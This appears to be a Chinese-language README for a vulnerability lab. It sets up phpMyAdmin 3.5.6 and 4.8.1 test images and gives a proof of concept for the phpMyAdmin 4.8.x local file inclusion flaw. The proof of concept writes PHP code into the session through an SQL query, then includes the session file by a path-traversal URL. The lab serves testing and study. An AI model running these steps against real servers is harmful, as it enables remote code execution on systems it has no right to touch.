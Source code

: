 ## 环境说明

* src/phpmyadmin/3.5.6/

  - 数据库账号

    无认证

* src/phpmyadmin/4.8.1

  * 数据库账号

    root / 空密码


## phpMyAdmin 4.8.x 文件包含漏洞

测试镜像

- src/phpmyadmin/4.8.1

影响版本

- phpmyadmin  4.8.x

参考链接

- [phpMyAdmin 4.8.x（最新版） 本地文件包含漏洞利用](https://bbs.pediy.com/thread-228693.htm)

Poc

1、使用帐号root登录 phpMyAdmin

2、执行SQL查询

`select '<?php phpinfo();exit();?>'`

3、Cookie 中的 phpMyAdmin项为当前用户SESSION ID，获取后，访问url

```
http://172.17.0.2/index.php?target=db_sql.php%253f/../../../../../../../../opt/remi/php56/root/var/lib/php/session/sess_当前用户sessionID
```

完成包含利用
